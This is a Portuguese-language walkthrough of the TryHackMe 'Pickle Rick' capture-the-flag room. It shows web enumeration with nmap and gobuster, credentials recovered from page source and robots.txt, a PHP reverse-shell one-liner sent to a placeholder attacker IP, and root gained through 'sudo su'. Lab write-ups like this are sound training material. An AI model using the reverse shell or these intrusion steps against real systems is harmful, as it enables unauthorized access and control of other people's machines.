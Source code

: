 # Pickle Rick

Sala do TryHackMe: **[https://tryhackme.com/r/room/picklerick](https://tryhackme.com/r/room/picklerick)

![47d2d3ade1795f81a155d0aca6e4da96.jpeg](Imagens/PickleRick_images/47d2d3ade1795f81a155d0aca6e4da96.jpeg)

Descrição da Sala: 

“This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: MACHINE_IP”

Resolução:

Para começar, mesmo que na descrição peça para acessar a internet e inserir o IP como endereço http, eu decidi aproveitar para tentar um scan do nmap( “nmap -T4“) para encontrar mais alguma porta na máquina.

Das portas abertas, a única acessível até o momento é realmente a http, que ao ser acessada no navegador, nos mostra a seguinte página:

A página nos pede para encontrar 3 ingredientes(senhas) para conseguir concluir o CTF com sucesso, ao usar a ferramenta inspecionar na página encontramos um usuário:

<aside>
💡

“R1ckRul3s”

</aside>

Isso nos leva a crer que exista uma página de login, mas antes de verificar usarei uma lista de palavras de tamanho médio junto ao GoBuster para tentar encontrar possíveis URL’s úteis para o nosso desafio.

<aside>
💡

gobuster dir -u <url> -w <path para a wordlist>

</aside>

Com o resultado do GoBuster, nós acessamos robots.txt, que apenas mostra “Wubbalubbadubdub”. Depois de algum tempo, eu me lembrei de tentar outras extensões no GoBuster e para isso só necessitamos de -x <extensão desejada>, então tentamos php e achamos “/login.php” que é referente à página:

<aside>
💡

gobuster dir -u <url> -w <path para a wordlist> -x php

</aside>

Tentando fazer o acesso com o usuário que conseguimos anteriormente e a palavra de “robots.txt”, conseguimos ir para “portal.php” que é referente à página:

![image.png](Imagens/PickleRick_images/image.png)

Conseguimos fazer login com as credenciais `R1ckRul3s:Wubbalubbadubdub`. Lá, econtramos um painel de comando:

![image.png](Imagens/PickleRick_images/image%201.png)

Com esse painel de comando acessível, usamos “ls” para ver ao que exatamente ele está relacionado.

Ao tentar acessar o arquivo nada suspeito “Sup3rS3cretPickl3Ingred.txt”, conseguimos a primeira senha do desafio.

Todas as outras páginas só levam a uma página de permissão negada.

Após isso, decidimos estabelecer um reverse shell, seguido de uma escalação de privilégio para termos acesso ao sudo. Mandamos o seguinte comando no painel (antes, abrimos um terminal e colocamos um escutador netcat para receber o reverse shell):

```jsx
php -r '$sock=fsockopen("<SEUIPPPPPPPPP>",1234);/bin/sh <&3 >&3 2>&3;'
```

Em nossa máquina, executamos o seguinte (também era possível encontrar a primeira flag depois de conseguir o reverse shell).

![image.png](Imagens/PickleRick_images/image%202.png)

Depois, procuramos formas de escalar privilégios e encontramos que o usuário pode executar qualquer comando com privilégios de root, então rodamos:

```jsx
sudo su
```

Aqui, nos tornamos root e basta explorar o diretório para encontrar as demais flags.

![image.png](Imagens/PickleRick_images/image%203.png)

Portanto, conseguimos concluir esse CTF com sucesso.